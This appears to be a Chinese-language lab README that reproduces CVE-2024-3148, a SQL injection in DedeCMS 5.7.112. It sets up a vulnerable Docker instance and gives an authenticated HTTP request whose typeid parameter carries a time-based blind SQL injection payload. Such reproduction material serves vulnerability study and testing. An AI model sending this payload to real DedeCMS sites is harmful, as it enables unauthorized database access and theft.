




# CVE-2024-3148 DedeCms makehtml_archives_action sql注入漏洞

DedeCMS（也称为织梦CMS）是一款基于PHP+MySQL的开源内容管理系统。

在 DedeCMS 5.7.112 中发现一个被归类为严重的漏洞。此漏洞会影响某些未知文件dede/makehtml_archives_action.php的处理。操作导致 sql 注入。攻击可能是远程发起的。该漏洞已向公众披露并可能被使用。

官网地址https://www.dedecms.com/


## 漏洞环境

执行如下命令启动一个DedeCms-v5.7.112-web服务器：

```
docker compose up 
```


服务启动后，可访问`http://your-ip:80/`跳转到DedeCms安装向导页面



点击继续安装



安装完成



## 漏洞复现

使用账号密码登录网站后台,获取后台cookie



发送payload

```
GET /dede/makehtml_archives_action.php?typeid=1+AND+(SELECT+1+FROM+(SELECT(SLEEP(3)))a) HTTP/1.1
Host: 10.66.64.106
Cookie: menuitems=[yourcookie]
Connection: close


```


